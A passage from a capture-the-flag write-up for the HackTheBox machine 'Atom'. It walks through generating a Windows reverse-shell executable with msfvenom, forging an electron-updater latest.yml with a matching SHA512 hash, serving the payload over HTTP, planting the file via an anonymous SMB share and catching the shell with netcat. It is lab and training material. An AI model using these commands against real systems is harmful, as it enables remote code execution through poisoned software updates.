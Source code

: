 ```bash
┌──(root💀f4T1H)-[~/hackthebox/atom/exploit]
└─> msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.29 LPORT=2121 -f exe -o "f4T1H'.exe"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: f4T1H'.exe
```

After that calculate `f4T1H'.exe`'s sha512 hash.

```bash
┌──(root💀f4T1H)-[~/hackthebox/atom/exploit]
└─> shasum -a 512 f4T1H\'.exe | cut -d " " -f1 | xxd -r -p | base64 -w0
bhHHmCp0jbEhqyTM+ozDS0HuZyTO1GLl2LL7e/UtFDqpIOBdrkGaATy8WNhpoNuu7/IatCNwMYMWuoelZdTPzA==
```

Then `touch` a file named `latest.yml` and put the followings in it:

__latest.yml__
```yaml
version: 1.2.3
path: http://10.10.14.29/f4T1H.'exe
sha512: bhHHmCp0jbEhqyTM+ozDS0HuZyTO1GLl2LL7e/UtFDqpIOBdrkGaATy8WNhpoNuu7/IatCNwMYMWuoelZdTPzA==
releaseDate: '2021-03-16T11:17:02.627Z'
```

__Attention:__ SHA512 hash and the ip address will be yours in this case.

Start an http server on port `80`.

```bash
┌──(root💀f4T1H)-[~/hackthebox/atom/exploit]
└─> php -S 0.0.0.0:80
[XXX XX XX XX:XX:XX 2021] PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

Finally execute the following so as to put your `latest.yml` in all of the client folders.

```bash
┌──(root💀f4T1H)-[~/hackthebox/atom/exploit]
└─> smbclient -N //10.10.10.237/Software_Updates -c 'put latest.yml client1/latest.yml; put latest.yml client2/latest.yml; put latest.yml client3/latest.yml'
putting file latest.yml as \client1\latest.yml (0.9 kb/s) (average 0.9 kb/s)
putting file latest.yml as \client2\latest.yml (0.9 kb/s) (average 0.9 kb/s)
putting file latest.yml as \client3\latest.yml (0.9 kb/s) (average 0.9 kb/s)
```

And listen on port `2121`.

```bash
┌──(root💀f4T1H)-[~/hackthebox/atom/exploit]
└─> nc -lvnp 2121
listening on [any] 2121 ...
```

After waiting for a few seconds (~15), if you do every step correctly, you'll get a shell from the box. If you couldn't get a shell, repeat the uploading process again or reset the machine (it was not stable for me).

